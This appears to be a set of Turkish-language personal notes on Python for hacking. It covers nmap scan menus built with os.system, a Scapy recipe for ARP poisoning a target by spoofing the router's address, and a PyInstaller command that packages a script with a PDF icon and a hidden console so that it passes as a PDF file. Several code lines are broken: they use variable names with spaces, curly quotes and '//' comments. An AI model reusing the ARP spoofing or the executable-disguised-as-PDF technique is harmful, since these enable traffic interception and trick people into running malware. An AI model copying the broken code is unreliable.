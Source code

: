 PYTHON
Python dilinde kod yazma :	#!/usr/bin/env python
Türkçe karakter desteği :	# -*- coding: utf-8 -*-
base64 decoder :	for word in $(cat şifre.txt);do echo $word | base64 --decode >> çıktı.txt; done
Komut satırında çalışmak için :
import os  	 //Komut satırında çalışmak için os ekledik
os.system(“apt-get install figlet”)	//figlet büyük yazı yazdırma aracı
os.system(“clear”)
os.system(“figlet mac değiştirme”)
Ekrana yazı yazdırmak :	print(“””üç tırnak arasına ekranda görmek istediğini yaz”””)
Seçenekler arasından seçim yapmak :
islemno = raw_input (“İşlem no girin”)
if (islemno==”1”):
hedef ip =raw_input(“hedef ip girin:”)
os.system(”nmap” + hedef ip)
elif (islemno==”2”):
hedef ip =raw_input(“hedef ip girin:”)
os.system(”nmap -sS -sV” + hedef ip)
else: print(“hatalı seçim”)

CTRL + K + C	=	Toplu yorum satırına alma
CTRL + K + U	=	Toplu yorum satırını kaldırma

Scapy

ARP Poison
ARP Request paketi	=  scapy.ARP(op=1) (Default)
ARP Response paketi	=  
degisken = scapy.ARP(op=2,pdst=hedef ip, hwdst=hedef mac, psrc= modem ip gir)
scapy.send(degisken)  :  Paketi gönderir.
hwdst	= Hedef mac adresi
pdst	= Hedef ip adresi
psrc	= Kaynak ip adresi
hwsrc	= Kaynak mac adresi

Python Kodunu Exe Yapma

"C:\Users\TR\AppData\Local\Programs\Python\Python310\Scripts\pyinstaller.exe" MyPackage.py --onefile --add-data "C:\Users\TR\Desktop\adobe.pdf;." --noconsole --icon C:\Users\TR\Desktop\pdf.ico
